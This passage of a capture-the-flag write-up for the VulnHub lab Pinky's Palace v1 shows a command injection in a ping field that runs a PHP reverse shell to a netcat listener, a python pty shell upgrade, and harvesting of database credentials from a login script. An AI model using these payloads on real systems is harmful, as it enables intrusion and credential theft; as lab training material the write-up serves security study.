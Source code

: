 ``` text
nc -nlvp 1234
```
n
We insert the reverse shell into the ping prompt which is pointing to our attacker machine:

`localhost; php -r '$sock=fsockopen("192.168.0.10",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

And now we can upgrade our shell in the attacker machine which is also from [pentestmonkeys]:

``` text
Connection from 192.168.0.11:59914

$ python -c 'import pty;pty.spawn("/bin/bash");'
www-data@pinkys-palace:/var/www/html/1337pinkyssup3rs3cr3tlair$ ls -al
ls -al
total 16
drwxr-xr-x 2 root root 4096 Jan 14 03:28 .
drwxr-xr-x 7 root root 4096 Jan 14 04:38 ..
-rw-r--r-- 1 root root  400 Jan 14 02:55 index.html
-rw-r--r-- 1 root root  146 Jan 14 01:41 mau.php
www-data@pinkys-palace:/var/www/html/1337pinkyssup3rs3cr3tlair$
```
Great we have a working shell now!

# Privilege escalation USER

Lets have a look at the `home directory` of the user `pinky` so see if there is something interesting.

``` text
www-data@pinkys-palace:/var/www/html/1337pinkyssup3rs3cr3tlair$ ls -al /home/pinky/
<html/1337pinkyssup3rs3cr3tlair$ ls -al /home/pinky/
total 100
drwxr-xr-x 3 pinky pinky  4096 Mar 31 15:11 .
drwxr-xr-x 3 root  root   4096 Jan 13 21:36 ..
-rw------- 1 pinky pinky   323 Mar 31 14:24 .bash_history
-rw-r--r-- 1 pinky pinky   220 Jan 13 21:36 .bash_logout
-rw-r--r-- 1 pinky pinky  3527 Jan 14 02:30 .bashrc
-rw-r--r-- 1 pinky pinky   675 Jan 13 21:36 .profile
-rw-r--r-- 1 root  root     92 Jan 14 02:31 note.txt
www-data@pinkys-palace:/var/www/html/1337pinkyssup3rs3cr3tlair$ cat /home/pinky/note.txt
There seems to be an issue with my shell, but I havent slept for days... I'll fix it later.
```

An issue with the `shell`? I had no idea at that point how this hint could be helpful because the `shell` was working properly.
I decided to search for known files like the `/login.php` I encountered earlier.

``` text
www-data@pinkys-palace:/var/www/html$ cat /var/www/html/portal_login/login.php
[...]
$DB_USER = "pinkys_dbu";
$DB_PASS = "pinkysDBp@55";
$DB_HOST = "localhost";
$DB_NAME = "pinkdash_db";
$user = $_POST['user'];
$pass = $_POST['pass'];
$FULLQUERY = "SELECT * FROM users WHERE username='" . $user . "' AND password='" . MD5($pass) . "'";

$conn = mysqli_connect($DB_HOST, $DB_USER, $DB_PASS);
$db = mysqli_select_db($conn, $DB_NAME);
[...]
```
Wow we got everything. We have now a `username` and `password` and the `database-name` of their `mysql` database.

[VulnHub]: https://www.vulnhub.com/entry/pinkys-palace-v1,225/
[Youtube]: https://www.youtube.com/watch?v=EEgpHGe7euU
[cheat sheet]: https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
[pentestmonkeys]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[dirbusted]: https://tools.kali.org/web-applications/dirbuster
[rebootuser]: https://github.com/rebootuser/LinEnum.git
[stackoverflow]: https://stackoverflow.com/questions/18929149/print-double-quotes-in-shell-programming
[pinkysplanet]: https://pinkysplanet.net/